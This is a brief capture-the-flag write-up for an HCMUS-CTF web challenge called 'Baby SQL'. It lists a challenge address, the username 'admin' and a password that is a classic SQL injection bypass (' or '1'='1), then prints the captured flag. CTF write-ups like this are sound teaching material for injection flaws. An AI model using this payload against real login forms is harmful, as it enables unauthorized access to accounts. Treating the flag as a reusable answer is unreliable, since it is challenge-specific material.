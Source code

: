 # Web Exploitation - Baby SQL

Link: (http://159.65.13.76:1339/)

Username: `admin`

Password: `pwd' or '1'='1`

Flag `HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}`